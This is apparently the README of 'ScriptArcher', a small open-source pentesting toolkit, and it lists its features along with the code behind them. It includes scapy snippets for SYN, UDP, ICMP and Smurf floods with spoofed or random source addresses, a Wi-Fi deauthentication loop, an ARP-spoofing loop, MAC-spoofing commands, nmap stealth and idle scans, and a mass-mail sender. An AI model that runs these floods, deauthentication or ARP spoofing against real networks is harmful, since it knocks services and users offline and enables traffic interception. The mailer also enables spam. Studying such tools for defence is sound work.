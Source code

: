 ##ScriptArcher Open source small project for pentesting : 
### Options :
1. Get your ipv6
2. Mass Mailer Attack
3. Scan :
   - 1.Port scanning
   - 2.IP scanning
   - 3.IP range scanning
   - 4.Scan popular ports
   - 5.Sweep Network
   - 6.Zombie scan
   - 7.Half open scan
4. DDoS :
   - 1.ICMP attack
   - 2.Smurf attack
   - 3.TCP state existing
   - 4.UDP flooding
5. Deauthentication Attacks
6. Mac Spoofing
7. Arp spoofing
8. dBm Analyzer
---
### Dependencies:
Libraries :
- scapy
- socket
- colorama
- contextlib
- email
- getpass
- requests

Tools :
- iw
- net-tools
- nmap
---
### How it works :
> Brief descriptions :

- #### IPv6 finder tool :

	By sending a request to https://www.whoismyisp.org/, it will receive your IP and ISP information .
```
re=get("https://www.whoismyisp.org/")
```
- #### Mass Mailer Attack tool :

	Receives an email from you as the sender and a list of recipients then enters your email and sends the same email to all emails in the list.

	**syntax of mailing file **:
	```
	example@example.com
	example2@example.com
	example3@example.com
	and ...
	```
	It then asks you for an smtp server address including port and address.
	A list of the most popular smtp servers:
	```
	Gmail : smtp.gmail.com 587
	Outlook(hotmail) : smtp-mail.outlook.com 587
	Yahoo : smtp.mail.yahoo.com 465
	```
	It will then ask you for the original text of the email (**enter the ^C to finish writing**)

	####***Note ***:
	To use this tool, you must enable the Less secure app access option in your Google Account settings. To activate, go to the following link:
	https://www.google.com/settings/security/lesssecureapps
	If you do not know what Less secure app access is, refer to the following link:
	https://support.google.com/accounts/answer/6010255?hl=en

- #### Scan :
This part of the tool performs a series of scans using NMAP.
#####Options :
	1.  **Port scanning** :
	This part of the tool scans a range of ports and displays or saves the result.
	Nmap command :
			nmap -p {rangePort} {host} -o {fileName}
	2. **IP scanning** :
	This part of the tool performs a typical scan and displays or saves the result.
	Nmap command :
			nmap {host} -o {fileName}
	3. **IP range scanning** :
	Scans a range of IPs (basically displays or stores any host that is active in the range of IPs)
	Nmap command :
			nmap -sp {host}* -o {fileName
	4. ** Scan popular ports** :
	Nmap command :
			nmap --top-ports {number} {host} -o {fileName}
	5. **Sweep Network** :
	Nmap “ping sweep” is a method to discover connected devices in a network using the nmap security scanner, for a device to be discovered we only need it to be turned on and connected to the network .
	Nmap command :
			nmap -sn {host}/{netmask} -o {fileName}
	6. **Zombie scan** :
	Idle scan, as it has become known, allows for completely blind port scanning. Attackers can actually scan a target without sending a single packet to the target from their own IP address! Instead, a clever side-channel attack allows for the scan to be bounced off a dumb “zombie host”. Intrusion detection system (IDS) reports will finger the innocent zombie as the attacker. Besides being extraordinarily stealthy, this scan type permits discovery of IP-based trust relationships between machines ...[more](https://nmap.org/book/idlescan.html "more")
	
	Nmap command :
			nmap -Pn -sI {Zombie host} {Target host} -o {fileName}
	7. **Half open scan** :
	SYN packets request a response from a computer, and an ACK packet is a response. In a typical TCP transaction, there is an  SYN, an ACK from the service, and a third ACK confirming message received.
This scan is fast and hard to detect because it never completes the full TCP 3 way-handshake. The scanner sends an SYN message and just notes the SYN-ACK responses. The scanner doesn’t complete the connection by sending the final ACK: it leaves the target hanging.
Any SYN-ACK responses are possibly open ports. An RST(reset) response means the port is closed, but there is a live computer here. No responses indicate SYN is filtered on the network. An ICMP (or ping) no response also counts as a filtered response.
	Nmap command :
			nmap -sS {host} -o {fileName}

- #### DDoS :
This tool uses scapy to send flooding packets to target .
##### Options :
	1. **ICMP attack** :
	This option send flood of normal icmp packets to target .
	Scapy command : 
			packet = IP(dst=Dst, src=f"{randint(1,200)}.{randint(1,200)}.{randint(1,200)}.{randint(1,200)}")/TCP(sport=randint(1024 ,49151), dport=Dport)
			send(packet)
	2. **Smurf attack**:
	The Smurf attack is a distributed denial-of-service attack in which large numbers of Internet Control Message Protocol (ICMP) packets with the intended victim's spoofed source IP are broadcast to a computer network using an IP broadcast address. Most devices on a network will, by default, respond to this by sending a reply to the source IP address. If the number of machines on the network that receive and respond to these packets is very large, the victim's computer will be flooded with traffic. This can slow down the victim's computer to the point where it becomes impossible to work on...[more](https://en.wikipedia.org/wiki/Smurf_attack "more")
	Scapy commands :
			TCP :packet = IP(dst=Dst, src=Src)/TCP(sport=Sport, dport=Dport,flags="S")
			UDP : packet = IP(dst=Dst, src=Src)/UDP(sport=Sport, dport=Dport)
			ICMP : packet = IP(dst=Dst, src=Src)/ICMP()
	3. **TCP state existing** :
	In a SYN flood attack, the attacker sends repeated SYN packets to every port on the targeted server, often using a fake IP address. The server, unaware of the attack, receives multiple, apparently legitimate requests to establish communication. It responds to each attempt with a SYN-ACK packet from each open port.
	Scapy command :
			packet = IP(dst=Dst, src=Src)/TCP(sport=Sport, dport=Dport,flags="S")
	4. **UDP flooding **:
	A UDP flood is a type of denial-of-service attack in which a large number of User Datagram Protocol (UDP) packets are sent to a targeted server with the aim of overwhelming that device’s ability to process and respond. The firewall protecting the targeted server can also become exhausted as a result of UDP flooding, resulting in a denial-of-service to legitimate traffic.
	Scapy command :
			Random mode : packet = IP(dst=Dst, src=f"{randint(1,200)}.{randint(1,200)}.{randint(1,200)}.{randint(1,200)}")/UDP(sport=randint(4096,65535), dport=port)
			Normal attack :packet = IP(dst=Dst, src=Src)/UDP(sport=Sport, dport=port)
- ####Deauthentication Attacks :
	[Deauthentication Attacks wikipedia page](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack "Deauthentication Attacks wikipedia page")
	Scapy command :
		dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
		packet = RadioTap()/dot11/Dot11Deauth(reason=7)
		sendp(packet, inter=0.1, count=100000, iface=ifc, verbose=1)
- ####Mac Spoofing :
MAC spoofing is a technique for changing a factory-assigned Media Access Control (MAC) address of a network interface on a networked device. The MAC address that is hard-coded on a network interface controller (NIC) cannot be changed. However, many drivers allow the MAC address to be changed. Additionally, there are tools which can make an operating system believe that the NIC has the MAC address of a user's choosing. The process of masking a MAC address is known as MAC spoofing. Essentially, MAC spoofing entails changing a computer's identity, for any reason...[more](https://en.wikipedia.org/wiki/MAC_spoofing "more")
Shell command :
			sudo ifconfig {interfaceName} down
			sudo ifconfig {interfaceName} hw ether {new mac}
			sudo ifconfig {interfaceName} up
- #### Arp spoofing :
[Arp spoofing wikipedia page](https://en.wikipedia.org/wiki/ARP_spoofing "Arp spoofing wikipedia page")
Code :
```
target_ip=input("\n\nEnter the target ip : ")
            spoof_ip=input("\nEnter the spoof ip : ")
            packet = Ether(dst = "ff:ff:ff:ff:ff:ff")/ ARP(pdst = target_ip)
            result = srp(packet , verbose = 0)
            resMac=result[0][0][1].hwsrc
            print(resMac)
            while 1:
                target_mac = resMac
                packet = Ether(dst = target_mac) / ARP(psrc=spoof_ip , pdst=target_ip,hwdst = target_mac , op = "is-at")
                sendp(packet , verbose = 0)
                print("[*] Packet send !")
```
- ####dBm Analyzer :
	[What is dbm(click) ?](https://en.wikipedia.org/wiki/DBm "What is dbm ?")
	
	The dBm Analyzer tool is used to receive the dBm signal and display it .
	Shell command :
			iw dev {interface name} scan
	We are given a lot of information using the above command, but this tool separates and displays the DBM section from the rest of the information (this information is constantly updated)
---
### Installation :
```
git clone https://github.com/manikamran/ScriptArcher.git
sudo python3 install.py
```
-----

>Resources used: [varonis.com](https://www.varonis.com/blog/port-scanning-techniques "varonis.com") , [linuxhint.com](https://linuxhint.com/nmap_ping_sweep/ "linuxhint.com") , [nmap.org](http://nmap.org "nmap.org") , [en.wikipedia.org](http://en.wikipedia.org "en.wikipedia.org") , [cloudflare.com](https://www.cloudflare.com/learning/ddos/udp-flood-ddos-attack/ "cloudflare.com")
